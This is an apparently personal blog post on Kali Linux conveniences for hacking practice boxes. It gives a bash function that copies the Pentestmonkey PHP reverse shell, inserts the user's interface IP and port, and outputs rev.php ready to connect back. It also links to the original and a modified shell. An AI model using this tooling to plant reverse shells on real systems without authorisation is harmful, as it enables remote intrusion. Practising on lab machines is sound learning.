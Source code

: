 ```yaml
---
layout:     post
title:      Kali-Linux-QoL
date:       2019-09-21 15:20:20
author:     J
summary:    Life's too short
categories: General
thumbnail:  thumbs-up
tags:
 - Linux
 - Kali
---
```


This post will be updated once in a blue moon. Just wanted to share some of my stuff which I use as I think it's good to automate certain processes when hacking boxes. Life's too short to be repeating stuff all the time.


## PHP Reverse shell generator

This particular script is for generating a PHP reverse shell. Just append it to your `.bashrc` file and restart your terminal to use. The original script can be found on [Pentestmonkey here][1]. Just replace the ip address to 'ipaddress' and set the port to 443.
Alternatively, you can download the [pre-modified version on my Github][2] to use with this script. Change the directory in the script to where you saved the script to.

Usage: `phprev <Interface> <Optional: listening port>`


~~~bash

# Create PHP reverse shell in current directory. Usage example: phprev tun0 1234
# Defaults to port 443 if port is not specified

function phprev() {
phprevshelldir=/root/Try-Harder/Scripts/Shells/php-reverse-shell.php #CHANGE THIS
if [ $# -eq 0 ]; then echo "Please define interface"
else
    revip=`ifconfig $1 | head -n2 | tail -n1 | awk '{print $2}' `
    cp $phprevshelldir ./rev.php && sed -i 's/ipaddress/'$revip'/g' rev.php
        if [ $# -eq 2 ]; then
        revport=$2 ;
        sed -i 's/443/'$2'/g' rev.php
        else revport=443
        fi
    echo "PHP reverse shell(rev.php) created and configured to connect back to:" $revip:$revport
fi
}


~~~

[1]: http://pentestmonkey.net/tools/web-shells/php-reverse-shell
[2]: https://github.com/Dreamscent/Try-Harder/blob/master/Scripts/Shells/php-reverse-shell.php
